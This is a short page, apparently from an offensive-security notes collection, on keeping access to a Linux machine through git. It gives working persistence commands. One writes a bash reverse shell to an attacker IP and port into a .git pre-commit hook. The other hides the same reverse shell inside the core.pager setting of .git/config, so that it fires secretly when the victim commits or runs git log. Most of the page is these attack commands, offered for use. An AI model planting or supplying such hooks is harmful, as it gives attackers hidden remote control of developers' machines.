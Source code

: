 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - linux
---
```

# Git Commits

> [!INFO]
> Assume the target has created a git project.
> ```
$ git init
> ```

## Hooks

```
$ cat > .git/hooks/pre-commit << EOF
bash -c 'bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1' &
EOF
```

Provide the right permissions

```
$ chmod 775 .git/hooks/pre-commit
```

Then wait for the target to push a commit.

```
$ git add -A

$ git commit -m "made a commit"
```

## Config

```
$ cat > .git/config << EOF
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
        pager = nohup bash -c 'bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1'>/dev/null 2>&1 & ${PAGER:-less}
EOF
```

Then wait for the target to view the commit logs.

```
$ git log
```

---
## References

- [[Linux Post Exploitation Persistence References]]